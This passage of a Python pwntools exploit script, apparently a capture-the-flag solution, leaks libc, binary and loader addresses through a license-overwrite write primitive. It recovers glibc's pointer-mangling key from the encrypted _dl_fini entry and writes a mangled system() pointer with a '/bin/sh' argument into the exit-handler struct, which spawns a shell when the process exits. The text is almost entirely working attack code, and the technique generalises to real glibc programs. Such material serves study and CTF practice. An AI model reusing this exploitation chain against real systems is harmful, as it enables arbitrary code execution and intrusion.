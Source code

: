 ```python
    log.info(f"Leaked the addresses of libc and the binary")
    return addrs

def debug_addr(addrs):
    license_addr = addrs['license']
    debug_addr = license_addr - 8151
    return debug_addr

def leak_debug_address(proc, addrs, debug_addr):
    license_addr = addrs["license"]
    payload_debug = p64(debug_addr)
    
    write_email(proc, license_addr, payload_debug)
    
    proc.sendlineafter(b'> ', b'server')
    output = proc.recvuntil(b'> ', drop=True).decode()
    proc.sendline(b"help")
    
    time.sleep(0.5)
    m = re.search(r'Internal Debug Info: (0x[a-f0-9]+)', output)
    if not m:
        raise RuntimeError("failed to find Internal Debug Info in server output")
    r_debug_8 = int(m.group(1), 16)
    ld.address = r_debug_8 - 234208

    log.info(f"Debug address leaked: {hex(r_debug_8)} by overwriting the license")
    log.info(f"Got loader base address: {hex(ld.address)}")
    return r_debug_8

def write_bin_sh_into_struct():
    initial_addr = libc.symbols["initial"]
    
    log.info(f"Found initial address: {hex(initial_addr)}")
    
    destination = initial_addr + 0x20
    bin_sh = next(libc.search(b"/bin/sh"))

    write_email(p, destination, p64(bin_sh))
    
    return initial_addr

def overwrite_initial_pointer_and_extract_key(initial_addr, license_addr):
    write_email(p, license_addr, p64(initial_addr + 0x18))
    
    p.sendlineafter(b'> ', b'read')
    p.recvuntil(b"Your current license is '")
    
    encrypted_bytes = p.recv(numb=8)
    encrypted_dl_fini = u64(encrypted_bytes)
    dl_fini = ld.address + 21376
    
    key = get_xor_key(dl_fini, encrypted_dl_fini)
    log.info(f"exit_functions key: {hex(key)}")
    
    return key

def encrypt_system_and_write(initial_addr, key):
    encrypted_system = rol64(libc.symbols["system"] ^ key, 0x11)
    
    write_email(p, initial_addr + 0x18, p64(encrypted_system))

def main():
    addrs = leak_addresses_and_setup(p)
```